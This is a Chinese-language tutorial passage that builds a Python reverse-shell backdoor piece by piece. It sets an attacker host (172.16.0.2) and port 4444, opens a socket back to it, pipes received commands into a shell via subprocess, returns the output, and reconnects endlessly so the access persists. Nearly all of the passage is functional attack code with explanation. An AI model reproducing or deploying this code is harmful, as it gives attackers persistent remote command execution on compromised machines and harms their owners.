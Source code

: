 然后我们需要定义我们的变量：这些值是攻击机器的 IP 和端口，以建立连接：

```py
HOST = '172.16.0.2'    # Your attacking machine to connect back to
PORT = 4444           # The port your attacking machine is listening on
```

然后我们继续定义原始连接；然后我们可以为我们建立的值分配一个值，并在以后引用它来读取输入并发送标准输出。

我们回顾一下之前设置的主机和端口值，并创建连接。我们将已建立的连接赋予`go`的值：

```py
def connect((host, port)):
   go = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
   go.connect((host, port))
   return go
```

然后，我们可以引入一段代码，用于等待部分。这将通过攻击机的 Netcat 会话等待发送给它的命令。我们确保通过会话发送的数据被导入到 shell 中，并且其标准输出通过已建立的 Netcat 会话返回给我们，从而通过反向连接为我们提供 shell 访问权限。

我们给通过 Netcat 会话传递给受损机器的值命名为数据。脚本中添加了一个值，用于在用户完成操作时退出会话；我们选择了`exit`，这意味着在 Netcat 会话中输入 exit 将终止已建立的连接。然后，我们开始处理数据的细节部分，其中数据被打开（读取）并被导入到 shell 中。完成后，我们确保读取`stdout`值并赋予一个值`stdout`（这可以是任何值），然后通过之前建立的`go`会话将其发送回给我们自己。代码如下：

```py
def wait(go):
   data = go.recv(1024)
   if data == "exit\n":
      go.close()
      sys.exit(0)
   elif len(data)==0:
      return True
   else:
      p = subprocess.Popen(data, shell=True,
         stdout=subprocess.PIPE, stderr=subprocess.PIPE,
         stdin=subprocess.PIPE)
      stdout = p.stdout.read() + p.stderr.read()
      go.send(stdout)
      return False
```

我们脚本的最后部分是错误检查和运行部分。在脚本运行之前，我们确保让 Python 知道我们有一个机制来检查会话是否处于活动状态，方法是使用我们之前的真实语句。如果连接丢失，Python 脚本将尝试重新与攻击机建立连接，使其成为一个持久的后门：

```py
def main():
   while True:
      dead=False
      try:
         go=connect((HOST,PORT))
         while not dead:
            dead=wait(go)
         go.close()
      except socket.error:
         pass
      time.sleep(2)

if __name__ == "__main__":
   sys.exit(main())
```
